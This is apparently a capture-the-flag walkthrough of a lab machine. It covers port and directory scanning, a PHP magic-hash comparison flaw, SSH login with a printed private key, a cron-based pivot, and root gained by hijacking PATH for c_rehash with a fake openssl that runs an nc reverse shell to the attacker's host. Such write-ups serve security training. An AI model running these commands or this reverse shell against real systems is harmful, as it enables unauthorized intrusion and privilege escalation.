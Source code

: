 Target: 10.0.0.12

    # nmap -sS -T4 -p- 10.0.0.12

    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

Port 3389 is running Windows Remote Desktop.

## ***HTTP***

Going to ***http://10.0.0.12***, we can find a comment.

![image](https://user-images.githubusercontent.com/76552238/167902811-b073e2c8-2154-4179-8514-87afb974b0e3.png)

<!--Marco, remember to delete the .bak file-->

Let's brute force the directories and search for ***bak*** files.

    # gobuster dir -u http://10.0.0.12/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x bak

    /check.bak            (Status: 200) [Size: 273]

After downloading the file to our local machine we can read it.

### ***check.bak***

    <?php
    // Login part.
    $pass = $_POST['password'];
    //marco please dont use md5, is not secure.
    //$passwordhashed = hash('md5', $pass);
    $passwordhashed = hash('sha256',$pass);
    if ($passwordhashed == '0e0001337') {
    //Your code here
    }
    else{
    //Another code here
    }
    //To finish
    ?>

34250003024812 == 0   
true

### ***key.txt:***

    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEAxiKdFmWJiVfVYaNGov1xuh0/nrXnNsx2s6g5IoIJrmkX+9qzt2US
    ZWMgrjLzAyB3wrLFysCPh4F8GU87pJkbpc0prM/8vB2WJCg5ktDQ6o0vwH219sPKUS4e9R
    s2bPz7CJX5bzFDQ3B6ZUOs1itZ1t/uq38XuCxDjI8XxU6fusB3Rjz2XIombtFwo78W1pkX
    VnQhzZOQ+b8UaC5lZeKatcZ0xdc0iQgiAbcRN7sXYCDMxMmo9KsxqzWjd56hLrv1nsTy2t
    VBXzDRw+5JU4AJlGDRB/Upq/oKbGDCOmgNUsJPQKW4TgEAWhUa+t/ue2Bs/wFjCY7w/LkY
    pK4bnY5eHQAAA8C/pv23v6b9twAAAAdzc2gtcnNhAAABAQDGIp0WZYmJV9Vho0ai/XG6HT
    +etec2zHazqDkiggmuaRf72rO3ZRJlYyCuMvMDIHfCssXKwI+HgXwZTzukmRulzSmsz/y8
    HZYkKDmS0NDqjS/AfbX2w8pRLh71GzZs/PsIlflvMUNDcHplQ6zWK1nW3+6rfxe4LEOMjx
    fFTp+6wHdGPPZciiZu0XCjvxbWmRdWdCHNk5D5vxRoLmVl4pq1xnTF1zSJCCIBtxE3uxdg
    IMzEyaj0qzGrNaN3nqEuu/WexPLa1UFfMNHD7klTgAmUYNEH9Smr+gpsYMI6aA1Swk9Apb
    hOAQBaFRr63+57YGz/AWMJjvD8uRikrhudjl4dAAAAAwEAAQAAAQEAlMcLA/VMmGfu33kW
    Im+DRUiPLCLVMo3HmFH6TRIuKNvbWY+4oT5w2NbdhFDXr4Jiyz0oTn3XiN3PDMY1N/yMCS
    0MXSp0UeE5i3709Gx+Y5GOyNDcoSYVtm2Wa2B6ts4jxievfDIWmv5LudxeXReCR1oxQm+V
    pQL/2fzc0ZifUj+/VSSIltgDKHxEfebfK0xShgXTSlUhickSapre2ArSdplM/rYvZLDWmd
    iGkGD3VnAgRtloy5v32vPI3M++OCrHbLxgff4odAjawejPPHVj3beMgCrqwb/CCNKEyWKc
    Jkjjt7nY/GUW4RfzM34LplezpmvrsLkTVMAb3KflDkDPFQAAAIBrP6Pnz0t8d/M+4hEb66
    IkrftwqMC+c8Z0HMGURTMco7jXfoXaVP3eWCafEZ/RobZm0Ob1mnBZ574Qn8ai5VLPyJz6
    5Ibe1Z6LWu6yCL/VFNyksnVARIuVjQt9pXpzbXOfn0H4ZHRBFyRhNHGjnft1PA59O30Dpw
    UVz9eO3K2EqQAAAIEA4baQFa4RYnZ/YK4F6acjsAPhk88poLjDT86eCQ08wO5+d8BGuSHE
    +BAqCZJuJTvvozYpZ5NFW4OEG9+T/HX2tvB6Ucc1pbQNNnB7CBp/VoLLTW+nuU3YJbgYlx
    VnWRRudD6K7wjZEHJ44XzLdTy2wyeUvZw/iJRZmqQ5hxXCD1MAAACBAOC4ucZotWaq/pb5
    V5RqLV8HU+DWFHAIfvqtYI5wCcZmAjGtXgLF1HY9MZ3bRPz2/m7cB44cdgCRbtmqBvnOvn
    6h9AS4gr1HOJEpjgohkxBTc2Mf/dpCCdcNCX2Xy5ExPSilbS2rUHHCIU2J/yZGTths8fBR
    cEjmSYvt0qFY/t7PAAAACm1hcmNvQGhhc2g=
    -----END OPENSSH PRIVATE KEY-----

>

    # ssh-keygen -l -f key.txt
    2048 SHA256:eSWsSZk1VWubUBDB9qNe7CkZXUMD453BCYkBiIglxpA marco@hash (RSA)

>

    # ssh marco@10.0.0.12 -i key.txt

## ***PRIVILEGE ESCALATION***

    $ cat user.txt 
    hashmanready

password for marco = marcothehasher

The file ***/home/maria/myterm.sh*** is part of the cron jobs.

We can login to port 3389 that is running ***Windows Remote Desktop*** through our Windows local machine.

After entering the password for the user ***marco*** we can copy the file ***.Xauthority*** from ***/home/marco*** to ***/home/maria***. Since the cron tab is running the script ***/home/maria/myterm.sh*** as the user maria, waiting a couple of seconds will grant us a shell as the user maria.

![image](https://user-images.githubusercontent.com/76552238/167955155-33721c1a-11ad-4241-b080-6b86de6a35d0.png)

Reading man page about the command ***c_rehash*** we find out it uses the command ***openssl***. We can create a fake executable named openssl and change the path variable and be able to gain a shell as the root user on the remote machine.  

    Remote Machine:

    $ mkdir /tmp/exploit
    $ echo 'nc 10.0.0.27 4444 -e /bin/bash' > openssl
    $ sudo c_rehash

>

    Local Machine:

    # nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.12] 52544
    whoami
    root
    #  cat root.txt 
    hashhater